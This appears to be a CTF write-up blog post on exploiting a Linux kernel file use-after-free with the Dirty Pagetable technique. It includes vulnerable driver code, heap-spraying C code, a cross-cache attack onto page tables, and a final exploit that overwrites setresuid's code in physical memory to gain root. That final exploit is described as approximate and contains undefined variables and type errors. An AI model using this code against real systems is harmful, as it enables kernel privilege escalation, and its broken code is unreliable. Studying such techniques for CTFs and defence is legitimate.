



Exploiting a file UAF in the linux kernel with the Dirty Pagetable technique, to get arbitrary write primitive on the physical memory.

<!--more-->


## Overview

Last year, in december, me and my team `thehackerscrew` have participated in the m0lecon2023 ctf finals, which was held in Turin, Italy.


There was a really cool kernel challenge, Kinda similar to CVE-2022-28350, which was all around exploiting a UAF on a file structure. In this blog, I will explain the Dirty Pagetable technique, and how it can be used to exploit many UAF vulnerabilities in the kernel.


## Vulnerability Analysis

the vulnerability in the CVE was found in the `kbase_kcpu_fence_signal_prepare` function, in the `/kernel/drivers/gpu/arm/midgard/csf/mali_kbase_csf_kcpu.c` file:

```c

static int kbase_kcpu_fence_signal_prepare(
		struct kbase_kcpu_command_queue *kcpu_queue,
		struct base_kcpu_command_fence_info *fence_info,
		struct kbase_kcpu_command *current_command)
{
  ...

	/* create a sync_file fd representing the fence */
	sync_file = sync_file_create(fence_out);
	if (!sync_file) {
		ret = -ENOMEM;
		goto file_create_fail;
	}

	fd = get_unused_fd_flags(O_CLOEXEC);
	if (fd < 0) {
		ret = fd;
		goto fd_flags_fail;
	}

	fd_install(fd, sync_file->file);

  ...

	if (copy_to_user(u64_to_user_ptr(fence_info->fence), &fence,
			sizeof(fence))) {
		ret = -EFAULT;
		goto fd_flags_fail;
	}

	return 0;

fd_flags_fail:
	fence.basep.fd = 0;
	fput(sync_file->file);
file_create_fail:
	dma_fence_put(fence_out);

	return ret;
}
```

The function will allocate a file structure on the linux kernel heap, and call `fd_install` to associate this file structure to a new fd.

Then, the `copy_to_user` sends the allocated fence object to the userspace, and if it fails, it will call `fput(sync_file->file);`, which decrements the ref_count of our file structure. Since the file has been just created and not used in other places, the ref_count will be 0 and the file structure will be freed from the heap.

This flow results in a UAF, because the new fd is still associated with this file structure, even though it is freed.

## Exploitation

To exploit this bug, I will use the kernel module from the challenge in m0lecon, because it is more striaght forward to interact with, and has the exact same bug.

Here is the vulnarable code, which is pretty much the same:

```c

static long keasy_ioctl(struct file *filp, unsigned int cmd, unsigned long arg) {
	long ret = -EINVAL;
	struct file *myfile;
	int fd;

	if (!enabled) {
		goto out;
	}
	enabled = 0;

    myfile = anon_inode_getfile("[easy]", &keasy_file_fops, NULL, 0);

    fd = get_unused_fd_flags(O_CLOEXEC);
    if (fd < 0) {
        ret = fd;
        goto err;
    }

    fd_install(fd, myfile);

	if (copy_to_user((unsigned int __user *)arg, &fd, sizeof(fd))) {
		ret = -EINVAL;
		goto err;
	}

	ret = 0;
    return ret;

err:
    fput(myfile);
out:
	return ret;
}
```

It will create anonymous file named `[easy]`, and will assign a fd to it.

If the `copy_to_user` call fails, the file structure will be freed, but we we can still use the assigned fd in userspace, so we have an UAF.

## Trigger the bug

To trigger the bug, we just need to open the vulnarable device, and make the `copy_to_user` call fail. 

We can do it by giving an invalid `arg` parameter, which is not mapped to the userspace virtual memory:

```c
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>


int main(int argc, char const *argv[]) {
  
  printf("Openining the vulnarable device...\n");
  int fd = open("/dev/keasy", O_RDWR);  

  printf("Freeing the file structure...\n");
  if (ioctl(fd, 0, 0x69696969) != -1){ //if the ioctl didn't fail
    printf("ERROR");
    exit(1);
  }

  //We reach here after the call to fputs
  int dangeling_fd = fd+1;
  
  printf("Use the Freed file structure...\n");

  write(dangeling_fd, 'ohohoh', 6);
  return 0;
}


```

Since fds for a process are usually incremental, we can guess that the associated fd of the freed file structure is `dev_fd+1`, since it is the only file allocated in the kernel after the `open` call.

Then, to compile it and run it in the vulnarable qemu machine, I created thie `bash` script to compile the exploit and put it in the filesystem of the qemu:

```bash
#!/bin/sh

# Step 0: Compile the exploit

gcc ./files/exp.c -o ./files/exp -static

# Step 1: Set up your environment
EXP_BINARY_PATH="/home/itay/Desktop/dirtypagetable/files/exp" 
INITRD_ORIGINAL="rootfs.cpio.gz"
INITRD_MODIFIED="new_rootfs.cpio.gz"
WORKING_DIR="rootfs_workdir"

# Step 2: Prepare the working directory
mkdir -p $WORKING_DIR
cd $WORKING_DIR

# Extract the original initrd
gzip -dc ../$INITRD_ORIGINAL | cpio -idmv

# Step 3: Copy the 'exp' binary to the extracted file system
cp $EXP_BINARY_PATH ./bin/

# Step 4: Repackage the initrd
find . | cpio -o -H newc | gzip > ../$INITRD_MODIFIED
cd ..

# Clean up the working directory
rm -rf $WORKING_DIR

# Step 5: Run QEMU with the modified initrd
qemu-system-x86_64 \
    -kernel bzImage \
    -cpu qemu64,+smep,+smap,+rdrand \
    -m 4G \
    -smp 4 \
    -initrd $INITRD_MODIFIED \
    -hda flag.txt \
    -append "console=ttyS0 quiet loglevel=3 oops=panic panic_on_warn=1 panic=-1 pti=on page_alloc.shuffle=1 kaslr" \
    -monitor /dev/null \
    -nographic \
    -no-reboot \
    -gdb tcp::12345

```

Then when we run it, we get a kernel panic:

```bash
~ $ /bin/exp
Openining the vulnarable device...
Freeing the file structure...
Use the Freed file structure...
[    3.442182] kernel BUG at fs/open.c:1424!
[    3.443158] invalid opcode: 0000 [#1] PREEMPT SMP PTI
[    3.443466] CPU: 2 PID: 122 Comm: exp Tainted: G           O       6.1.63 #3
[    3.443713] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.0-debian-1.16.0-4 04/01/2014
[    3.443746] RIP: 0010:filp_close+0x80/0x90
[    3.443746] Code: 48 89 df e8 62 58 00 00 89 e8 5b 41 5e 5d c3 cc cc cc cc cc 31 ed f6 43 45 40 74 ce eb e2 48 c7 c7 33 1e b0 a4 e8 c8 cf 83 00 <0f> 0b 66 66 66 66 66 2e 0f 1f 84 00 00 00 00 00 90 90 90 90 90 90
[    3.443746] RSP: 0018:ffffa51a8034fe50 EFLAGS: 00000246
[    3.443746] RAX: 000000000000003a RBX: ffff911ac1e6de40 RCX: a5dfec689771fd00
[    3.443746] RDX: ffffa51a8034fd38 RSI: 00000000ffffdfff RDI: ffffffffa4c78840
[    3.443746] RBP: 0000000000000000 R08: 0000000000001fff R09: ffffffffa4c48840
```

Ok, so we have a UAF in the linux kernel heap. how do you exploit such bug?

## Understanding the Linux Kernel Memory Allocator

The Linux Kernel, is required to have a unique, fast and efficient memory allocator. 

Unlike `glibc` malloc, the kernel needs a different kind of approach, more integrated with the system itself, and conformant to DMA restrictions.

In the linux kernel , the allocators are built upon slabs.

A `Slab`, is a set of one or more contiguous pages of memory that contain kernel objects of a specific size.


Those slabs, are then grouped to multiple `Slab Caches`, which are containers of multiple slabs of the same type.

There are 2 types of `Slab Caches`:

1. `Generic Slab Cache` - General purpose caches that can hold any object of a specific size. these are the slab caches of memory allocated by `kmalloc` in the kernel. for example, if `kmalloc(32)` has been called, this will return a pointer to a `Generic Slab Cache` called `kmalloc-32`.

2. `Dedicated Slab Cache` - Those are slab caches dedicated to a specific type structures. those are usually things that are allocated frequently, so the kernel stores it all in 1 slab cache. For example, file strucutres have their own dedicated slab cache, called `files_cache`.

There are multiple slab allocators available in the Linux Kernel: `SLUB, SLOB, SLAB`, but usually, the `SLUB` allocator is the default one. 
The `SLUB` allocator  is pretty much like `SLAB`, but it has better execution time than the SLAB allocator by reducing the number of queues/chains used.


A cache’s slabs are divided into three lists; a list with full slabs (i.e slabs with no free slots), a list with empty slabs (slabs on which all slots are free), and a list with partial slabs (slabs that have slots both in use and free).



In SLUB, the fd pointer to the next free object is stored directly inside the object itself, requiring no additional space for metadata and achieving a 100% slab utilization.

Each slub will have its unique data structure called `kmem_cache` that keeps track of the slub metadata. 
There is one and only one kmem_cache for each object type, and all slabs of that object are managed by the same kmem_cache. These structs are linked to each other in a double linked list, accessible through the `slab_caches` variable.

###### Understanding the kmem_cache structure

Each `kmem_cache` struct will have 2 kind of pointers to keep track of its slab.

It will contain an array of `kmem_cache_node`, and a pointer to `kmem_cache_cpu`.

The `kmem_cache_node` array keeps track of partial and full slabs that aren't active. They will be accessed incase of a free, of when an active slab(pointed by the `kmem_cache_cpu`) gets filled up and another partial needs to take its place.

The `kmem_cache_cpu` pointer is responsible for managing the active slab. it's only one and it's relative to the current cpu. The ptr returned from the next allocation will be returned from this active slab, by taking the head of its `freelist` pointer.

###### Understanding the Buddy Allocator

The idea of the buddy allocator is to allocate and manage physical memory efficiently. It does it by dividing the memory into fixed-size blocks (usually  2^n * PAGE_SIZE), and whenever a memory is requested, the system finds the smallest available block that can accommodate the requested memory size. 

The main problem of the buddy allocator is `internal fragmentation`:

Since the buddy system allocates memory in blocks that are powers of two, there's often a mismatch between the allocated block size and the actual memory requirement. For example, if an application requests 260KB of memory and the nearest power-of-two block size is 512KB, the system allocates the 512KB block, resulting in 252KB of unused space within the allocated block. This unused space represents internal fragmentation.

In Linux, this problem is addressed by sliceing pages into smaller blocks of memory (slabs) for allocation.

Here is how the structure of the layers of memory allocators in the linux kernel:



All the structure that are used by the `slub` allocator (i.e `kmem_cache`, `kmem_cache_node`) will be allocated directly from the buddy allocator, this piece of information is important for the exploitation of this bug.


## Exploitation

So we have a UAF bug on the dedicated `files_cache` slub cache.
There isn't really interesting stuff we can overwrite there, and file structures doesn't contain anything we would want to tackle with.

To overcome this issue, we can do a Cross-Cache Attack.

#### Cross-Cache Attack

In the cross cache attack, we will free the file object that was created and their own page to return to the buddy allocator. After that, we can allocate another object from another dedicated slub cache, the buddy allocator will allocate the new slub cache over the previously file structure slub cache, and we'll have our UAF on an object of other type.

To exploit this bug, I have used the `Dirty Pagetable` technique.

In this technique, we use our cross-cache attack over the pte's dedicated slub cache.
When calling `mmap`, a new pte will be allocated, storing usefull stuff like physical memory address.
If we can have our UAF target this structure, we can change this address, to gain a better primitive.

So now lets trigger our UAF on a PTE structure.

we first, call tons of times to `mmap`, to let the MMU know that these addresses will be used by us. At this stage, the kernel haven't allocated our PTE's yet, it will only when a page fault occurs, so when they are accessed via userspace.

Then , we spray tons of files, by opening a random file. We set one of them to be our UAF'ed file. This will fill up the dedicated slub cache.

Now, when we free all those structures, the buddy allocator will free this slub cache, and this memory will not be used.

Then, when we actually allocate the pte's, the slub allocator will allocate a new dedicated slub cache for the PTE's, over the previously freed slub cache, which was the file structures slub cache.

Since we can still use one of the files there, we can corrupt data in the PTE struct!

Here is how we trigger this attack:

```c
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/mman.h>

#define FILES_COUNT 0x200
#define PAGES_COUNT 0x100
#define MEM_BASE 0x696900000
int main(int argc, char const *argv[]) {
  
  int fd_spray[2*FILES_COUNT] = {0};
  int pages_spray[FILES_COUNT] = {0};

  printf("Openining the vulnarable device...\n");
  int fd = open("/dev/keasy", O_RDWR);  

  for (int i = 0; i < PAGES_COUNT; i++) {
    pages_spray[i] = mmap(i*0x2000 + MEM_BASE, 0x1000, PROT_WRITE|PROT_READ, MAP_ANONYMOUS|MAP_SHARED, -1, 0);
  }

  for(int i = 0; i < PAGES_COUNT; i++){
    fd_spray[i] = open("/etc/passwd", O_RDONLY);
  }

  int dangeling_fd = fd_spray[PAGES_COUNT - 1] + 1;

  printf("Freeing the file structure...\n");
  if (ioctl(fd, 0, 0x69696969) != -1){ //if the ioctl didn't fail
    printf("ERROR");
    exit(1);
  }

  printf("Filling up the filp slab cache...\n");
  for(int i = 0; i < PAGES_COUNT; i++){
    fd_spray[PAGES_COUNT + i] = open("/etc/passwd", O_RDONLY);
  }

  printf("Relasing the slab cache back to the buddy allocator...\n");
  for (int i = 0; i < PAGES_COUNT * 2; i++){
    close(fd_spray[i]);
  }
	
  printf("Allocating ptes...\n");
  for (int i = 0; i < PAGES_COUNT; i++) {
    pages_spray[i][0] = 'A';
  }

  printf("Use the Freed file structure...\n");

  write(dangeling_fd, 'ohohoh', 6);
  return 0;
}
```

Here is how the file structure looks like:

```c
struct file {
	union {
		struct llist_node	f_llist;
		struct rcu_head 	f_rcuhead;
		unsigned int 		f_iocb_flags;
	};

	spinlock_t		f_lock;
	fmode_t			f_mode;
	atomic_long_t		f_count;
	struct mutex		f_pos_lock;
	loff_t			f_pos;
	unsigned int		f_flags;
	struct fown_struct	f_owner;
	const struct cred	*f_cred;
	struct file_ra_state	f_ra;
	struct path		f_path;
	struct inode		*f_inode;	/* cached value */
	const struct file_operations	*f_op;

...
}

```

One good field here is the `f_count` field, which represents the reference count of the file object.
When calling the `dup` syscall on a specific `fd`, the kernel will assign a new fd to this file structure, and will increment the `f_count` of this file structure.

With our UAF, we can let the position of the victim PTE coincide with the f_count, then we can perform the increment primitive to the victim PTE and control it to some extent.

The aligned size of a file object is 320 bytes, the offset of f_count is 56, and the size of f_count is 8 bytes.

The size of the slab of filp kmem cache is two pages, and there are 25 file objects in a slab of filp kmem cache.

We would want to shape the heap to look something like this:



So now, we have an increment primitive over the physical address of a PTE.

This is not enough to win, because we can't simply overwrite kernel text/data, because the physical address of the memory region allocated by mmap() is likely greater than the physical address of kernel text/data.

But still , we can write pretty much to any place we want after the pte's in the physical memory.

The dma-buf subsystem provides the framework for sharing buffers for hardware (DMA) access across multiple device drivers and subsystems, and for synchronizing asynchronous hardware access.

with the dma-buf system heap, We can share physical pages to be mmaped into kernel space and user space at the same time.

We can open the DMA device with `open("/dev/dma_heap/system")`. By calling `DMA_HEAP_IOCTL_ALLOC` ioctl to this device, we can allocate a memory that can be mapped to userspace.

When allocating a page with this ioctl, its physical address will be allocated close to our victim PTE.

Since we already know which userspace page is the one corrupting the PTE, we can munmap it and allocate the dma-buf page to make f_count overlap with the PTE entry for the dma-buf page.

We can fully edit our dma-buf in userspace, so we have the primitive to fully control the PTE structure (we changed its physical memory address). So we can basiclly just change its physical memory pointer, and gain an arbitrary read/write primitive in the physical memory.

With that primivive, we can simply overwrite the machine code of the `setresuid` syscall, to not actually check the userspace permissions.

Here is somewhat of what the exploit will look like:

```c
#include <fcntl.h>
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>


struct dma_heap_struct_data {
  unsigned long long len;
  unsigned int fd;
  unsigned int fd_flags;
  unsigned long long heap_flags;
};

#define FILES_COUNT 0x100
#define PAGES_COUNT 0x200
#define MEM_BASE 0x696900000
int main(int argc, char const *argv[]) {
  
  int fd_spray[2*FILES_COUNT] = {0};
  int pages_spray[FILES_COUNT] = {0};

  printf("Openining the vulnarable device...\n");
  int fd = open("/dev/keasy", O_RDWR);  
  int dmafd = creat("/dev/dma_heap/system", O_RDWR);

  for (int i = 0; i < PAGES_COUNT; i++) {
    pages_spray[i] = mmap(i*0xf000 + MEM_BASE, 0x1000, PROT_WRITE|PROT_READ, MAP_ANONYMOUS|MAP_SHARED, -1, 0);
  }

  for(int i = 0; i < PAGES_COUNT; i++){
    fd_spray[i] = open("/etc/passwd", O_RDONLY);
  }

  int dangeling_fd = fd_spray[PAGES_COUNT - 1] + 1;

  printf("Freeing the file structure...\n");
  if (ioctl(fd, 0, 0x69696969) != -1){ //if the ioctl didn't fail
    printf("ERROR");
    exit(1);
  }

  printf("Filling up the filp slab cache...\n");
  for(int i = 0; i < PAGES_COUNT; i++){
    fd_spray[PAGES_COUNT + i] = open("/etc/passwd", O_RDONLY);
  }

  printf("Relasing the slab cache back to the buddy allocator...\n");
  for (int i = 0; i < PAGES_COUNT * 2; i++){
    close(fd_spray[i]);
  }
  
  printf("Allocating first part of ptes...\n");
  for (int i = 0; i < PAGES_COUNT; i++) {
      for (int j = 0; j < 0xf; j++){
        pages_spray[i][j*0x1000] = '0' + j;
      }
  }

  printf("Allocating the DMA buf entry...\n");
  int dma_buf_fd = -1;
  struct dma_heap_struct_data data;
  data.len = 0x1000;
  data.fd_flags = O_RDWR;
  data.heap_flags = 0;
  data.fd = 0;
  ioctl(dmafd, 0xc0184800, &data); // 

  printf("Allocating second part of ptes...\n");
  for (int i = 0; i < PAGES_COUNT/2; i++) {
        for (int j = 0; j < 0xf; j++)
      *(char*)(pages_spray[i] + j*0xf000) = '0' + j;
  }


  printf("Using our increment primitive to change the physical memory pointer to point on our DMA buf structure...\n");
  for (int i = 0; i < 0x1000; i++){
    dup(dangeling_fd);
  }

  // Search for page that overlaps with other physical page
  void *pte_victim = NULL;
  for (int i = 0; i < PAGES_COUNT; i++) {
    if (pages_spray[i][7*0x1000] != '7') { // if it got changed
      pte_victim = pages_spray[i] + 0x7000;
      break;
    }
  }

  // Place PTE entry for DMA buffer onto controllable PTE
  printf("Allocate pte over our DMA buffer...\n");
  munmap(evil, 0x1000);
  void *dmabuf_mem = mmap(evil, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_POPULATE, dma_buf_fd, 0);
  *(char*)dmabuf_mem = 'A'; // trigger page fault

  //change physical address to point to the PTE struct
  for (int i = 0; i < 0x1000; i++){
    dup(dangeling_fd);
  }

  //find the victim pte, that we have control over

  void* physical_mem_address = NULL;
  for (int i = 0; i < N_PAGESPRAY; i++) {
    if (page_spray[i] != evil){
      if (*(size_t*)page_spray[i] > 0xffff) {
        physical_mem_address = (*(long long)(page_spray[i]) & 0xfffffffffffff000) - 0x1c04000; 
        break;
      }
    }
  }

  void* setresuid_jne_byte = physical_mem_address + SETRESUID_OFFSET;

  *(char*)(setresuid_jne_byte) = 0x74; //(flip je to jne)
  return 0;
}
```

Took a lot of inspiration from [ptr-yudai blog](https://ptr-yudai.hatenablog.com/entry/2023/12/08/093606) exploit, so thanks a lot for that! 